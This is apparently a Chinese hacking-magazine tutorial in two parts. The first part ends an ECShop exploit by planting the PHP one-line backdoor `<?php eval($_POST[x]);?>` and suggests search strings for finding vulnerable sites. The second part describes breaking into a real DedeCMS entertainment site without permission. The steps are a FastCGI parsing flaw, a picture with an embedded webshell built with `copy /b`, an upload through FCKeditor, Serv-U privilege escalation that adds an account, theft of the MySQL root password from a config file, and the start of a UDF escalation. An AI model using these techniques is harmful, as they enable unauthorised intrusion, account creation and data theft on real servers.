

图7

来到myship.lbi代码的最后，回车空出一行，然后插入PHP一句话木马代码`<?php eval($_POST[x]);?>`（如图6），点“确定”按钮保存修改，看到“库项目内容已经更新成功”的提示后PHP一句话木马就插入进去了，插入的文件是ecshop网站根目录下的文件myship.php，我这里的具体访问地址为http://127.0.0.1/ecshop/myship.php。

用一句话PHP后门客户端连接http://127.0.0.1/ecshop/myship.php，写上密码x，成功得到shell（如图7）。用这个一句话木马另外传个shell上去，把myship.lbi恢复成原来的样子就可以收工了。

## 三、总结

这个漏洞的利用率还是很高的，差不多只要能破解出爆出的密码就能拿到shell。

ECSHOP作为一款网店程序，对安全性要求应该很高，却时不时的出个漏洞，不应该啊，不过也再次验证了一点：没有绝对的安全。由于是网店程序，又子们在练手时一定不要搞破坏，否则造成的任何损害与本作者无关。搜索“Powered by ECShop v2.6”、“Powered by ECShop v2.7”等可以找到可能存在这个漏洞的网站。

## FAST-CGI解析漏洞拿下网站

作为一个不太厉害的小黑，我比较喜欢关注网上发布的漏洞。利用最新的漏洞可以比较简单的得到webshell，然后利用webshell提权拿下服务器，这个是我最喜欢的。有一个很有意思的娱乐网站，我经常登陆浏览，以前就有拿下这个网站的想法，但是用了很多手段都不行。经过前期调查发现，管理员使用的是织梦也就是dedecms。虽然织梦号称漏洞之王，但是网站的织梦版本比较低，而且管理员已经把cms的代码改动了很多，漏洞没有一个成功的。

大家可能都知道，几个月前80sec公布了nginx的一个解析漏洞，就是在非服务器解析的文件（例如图片文件）后面加上`/1.php`就可以把它解析成php。例如www.baidu.com/log.jpg只是图片，而www.baidu.com/log.jpg/1.php就可以把log.jpg里面的代码解析成php。后来我在网上看到有大牛的博文说，有漏洞并不是nginx，而是php的FAST-CGI。这样一来IIS也同样可能出现这种漏洞，如果网站是运行在FAST-CGI模式下的话。

## 一、出现转机

最近听说网站很可能转移了服务器，一次偶尔的404让我发现了它报错的样子很像是IIS7.0（如图1），这个就给我带来了曙光。



图1

## 二、付诸实践

于是就拿这个网站的robots文件测试了一下，发现可能存在这个漏洞（如图2）。当然，这个只是测试而已，得去实际拿webshell。如果管理员设置了上传的文件夹内的文件不允许执行脚本的话，也是无法拿到webshell的。



现在制作有php一句话木马的图片，这里可以利用cmd的copy命令来完成。输入`copy /b xxx.jpg+xxx.txt xxx.jpg`就可以把txt里面的一句话用二进制的方式插进图片中，而且不影响图片的完整性（如图3）。我在txt里面多加了一行`<?`是为了让一句话在第二行，有时候解析不能的话可以尝试回车一下换行。



然后是注册一个账号，把带有php一句话木马的图片上传上去。上传比较简单，点击发表文章里面就自带了一个FCKeditor编辑器，我们可以利用它来上传图片（如图4）。



上传好后，把这个链接加上`/1.php`，放到一句话木马客户端去执行就可以了。由于解析的是图片，回显也是包含在图片里的，所以我们看不到文字的回显。我上传这个一句话也只是为了上传我的webshell，所以有没有回显无所谓。使用一句话木马客户端，选择上传文件夹上传我的webshell（如图5）。我还遇到过上传的图片可以显示，而且在图片的下方一样有正常的回显内容，这样的情况。

拿到webshell后就可以输入密码，登陆进去了。但是我的webshell不知道怎么出现里奇怪的乱码，很多功能都无法使用。经过反复尝试，只有一个没有加密的英文的webshell可以完整的解析（如图6）。





## 三、尝试提权

到这里我就顺利的拿到网站webshell，但是这只是开始，真正有趣的是提权的部分了。提权的方式有很多种，我喜欢先收集信息再确认用哪种方法提权。很多菜鸟提权就喜欢随便的乱运行漏洞exp，其实有目的的提权才是最明智的。有时候有的exp可能导致杀毒软件报警，从而让管理员发现你，这样你的提权之路就完结了。

首先，我可以确认可能利用mysql的root账号来提权（织梦的漏洞使我弄到webshell很多，其中提权成功率最高的就是利用mysql来进行提权）。然后，来看看服务器是否支持asp、aspx（aspx的webshell的权限是user，提权成功率更高），随便传个asp、aspx的webshell来检测是不是能运行就可以了。不过可惜的是都不支持，再来运行cmd命令收集信息。点击webshell的Execute Command功能进去就可以执行cmd命令，我用了一个whoami来测试是否可以运行cmd命令（如图7）。

用webshell浏览网站的文件，多注意含有inc、config、include、data等字样的文件和文件夹。看到可疑的文件，就利用webshell的编辑功能查看里面的内容。特别指出的是，管理员可能把root用户名改成其他的了，如果找到不是root的用户名和密码也可以尝试去提权。



图7



给大家一些常用的提权使用到的cmd命令。使用systeminfo可以查看服务器的一些信息，net start可以查看全部的服务，tasklist可以看全部的进程，



图8

图10

netstat -an可以查看端口。通过收集信息，发现服务器还安装了Scrv-U（如图8），而且还查看到端口43958打开着（如图9）。




图9

图11

虽然确认可能用Serv-U提权，但是我这个webshell里面没自带Serv-U提权的功能，而有提权功能的webshell无法完整解析。这时候就可以利用php代码执行，这个平台很少用到的webshell的功能。点击Eval PHP Code来运行这个功能（如图10）。Webshell的作者给我们提供了些代码，我选择Serv-U-Exp.txt这个提权代码来运行。

根据代码的提示，$sucommand = 'net user s4t s4t /add'；运行的就是cmd的命令，可以根据具体的需要进行修改。我运行了一个命令来建立账户并把它添加到管理员中，可以看到回显是成功的（如图11）。一般来说基本到这里就已经提权成功了，但是我用net user命令查看了一下用户，发现并没有出现anteer这个管理员用户。原因有很多，可能密码作了安全组策略长度不够，或者net user命令被禁用，无法添加账号。



图12

```
Current File: config_base.php

php
$cfg_basecir = eregi_replace(...);
if($cfg_multi_site == '是') $cfg_mainsite = ...;
$cfg_dbhost = 'localhost';
$cfg_dbuser = 'root';
$cfg_dbpwd = '******';
$cfg_dbprefix = 'dede_';
$cfg_db_language = 'gbk';
```

Serv-U提权最大的问题就是无法回显cmd命令的内容，所以盲目的去试不如去用mysql提权。因为很有经验，我直接去找了数据库的配置文件，并且在里面发现root的密码（如图12）。这里给大家介绍一下找mysql数据库root账号的技巧。含有mysql的数据库账号和密码的文件一般保存在网站的数据库配置文件，可以到网上直接百度搜索，例如“织梦cms数据库配置文件”。

但是上传mysql提权用的exp和我自己加密的中文webshell一样，发现都不能完整的解析（如图13）。换了大概6个左右的exp，我放弃直接用工具来提权的方法。



图13

记得以前在网上看到用手工来提权mysql的方法，现在终于派上用场了。这个方法不是原创的，但是我写的更详细。使用这种方法要先连接上mysql数据库。点击webshell的MySQL Manager功能，输入root的密码，点击连接就可以了，然后选择mysql这个数据库（如图14）。而且我们还发现有一个information_schema库，可以判断mysql版本在5及以上。这样我们提权导出的udf.dll就必须导出到mysql的安装目录下。

